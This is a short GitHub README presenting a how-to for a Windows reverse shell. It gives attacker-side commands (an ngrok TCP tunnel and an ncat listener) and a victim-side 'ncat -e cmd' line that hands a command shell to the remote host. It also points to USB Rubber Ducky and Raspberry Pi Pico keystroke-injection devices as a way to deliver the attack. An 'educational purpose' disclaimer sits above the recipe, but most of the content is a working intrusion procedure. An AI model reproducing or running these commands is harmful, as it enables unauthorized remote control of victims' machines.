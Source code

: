 # Reverse-Shell
This is a guide on how to perform a reverse shell on Windows.

> This repository is ONLY for educational purpose

❓ **How Reverse Shell Works**
- In a typical remote system access scenario, the user is the client and the target machine is the server. The user initiates a remote shell connection and the target      system listens for such connections. With a reverse shell, the roles are opposite. It is the target machine that initiates the connection to the user, and the user’s    computer listens for incoming connections on a specified port.

> ⚠ ATTENTION ⚠

- This repository does NOT explain how to set a [Raspberry Pi Pico](https://www.amazon.it/IBest-Pico-Microcontroller-Board-Pre-Soldered/dp/B0922F9VYT/ref=sr_1_1_sspa?__mk_it_IT=%C3%85M%C3%85%C5%BD%C3%95%C3%91&crid=23WS773UDH0WZ&keywords=rasberry%2Bpi%2Bpico&qid=1664023352&qu=eyJxc2MiOiIzLjcyIiwicXNhIjoiMy4yMiIsInFzcCI6IjIuNjEifQ%3D%3D&sprefix=rasberry%2Bpi%2Bpico%2Caps%2C105&sr=8-1-spons&spLa=ZW5jcnlwdGVkUXVhbGlmaWVyPUExMjdRSFlKUEc3TDk0JmVuY3J5cHRlZElkPUEwOTgzNzkzM05VN0s2QTFDV05VVyZlbmNyeXB0ZWRBZElkPUEwOTE1NjQ1MkQ3UFIwM01QU1VHSyZ3aWRnZXROYW1lPXNwX2F0ZiZhY3Rpb249Y2xpY2tSZWRpcmVjdCZkb05vdExvZ0NsaWNrPXRydWU&th=1, "Buy a Raspberry Pi Pico") or a [USB Rubber Ducky](https://hak5.org/products/usb-rubber-ducky, "Buy a USB Rubber Ducky").

  - For set a raspberry pi pico or a USB Rubber Ducky: 
    - https://www.youtube.com/watch?v=e_f9p-_JWZw&t=949s&ab_channel=NetworkChuck
    - https://github.com/dbisu/pico-ducky

🧰 **Hacker's Computer**
 1. Download [Ngrok](https://ngrok.com/)
 2. Run ngrok on port `9999` 
    - ngrok tcp 9999
 3. Create a listener with [Ncat](https://nmap.org/download.html) on another cmd
    - ncat -lvnp 9999
 
 🎯 **Victim's Computer**
 1. ncat -e cmd \<ngrok IP> \<ngrok PORT>
 
 > ⚠ ATTENTION ⚠
 
 DIFFERENT NETWORK
  - ngrok

SAME NETWOTK - DIFFERENT DEVICES
  - IPv4 + 9999

SAME DEVICE
  - 127.0.0.1 + 9999
